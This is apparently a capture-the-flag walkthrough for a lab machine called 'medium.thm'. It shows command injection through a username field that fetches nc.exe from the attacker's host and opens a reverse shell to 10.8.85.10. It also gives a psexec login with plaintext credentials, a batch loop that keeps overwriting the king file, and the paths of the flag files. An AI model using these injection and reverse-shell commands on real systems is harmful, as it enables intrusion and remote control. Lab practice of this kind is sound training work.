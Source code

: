 # H1 Hard
## Method 1
1. goto -> `http://medium.thm/signup` and sign up.
2. `profile -> change username`
3. Right Click -> Inspect -> Netwok -> Right Click to script.js and click to Block URL
4. `cd webserver; python -m http.server 8080`.
5. Paste `jin | powershell curl YOUR_IP:8000/nc.exe -o nc.exe` to change username
6. Paste `nc -nvlp 45789` on your terminal and execute
2. Paste `jin | nc.exe 10.8.85.10 45789 -e powershell` to change username
## Method 2
1. Paste `python3 psexec.py medium.thm/achilles:winniethepooh@medium.thm` to terminal

## Defence
```bash
@echo off
:x
attrib -a -s -r -i C:\king.txt&echo lomarkomar > C:\king.txt&attrib +a +s +r +i C:\king.txt
goto x
```

## Fflags
1. C:\Users\achilles\Desktop\flag.txt
2. C:\Users\agamemnon\Desktop\flag.txt
3. C:\Users\hector\Desktop\flag.txt
4. C:\Users\helen\Desktop\flag.txt
5. C:\Users\patrocles\Desktop\flag.txt
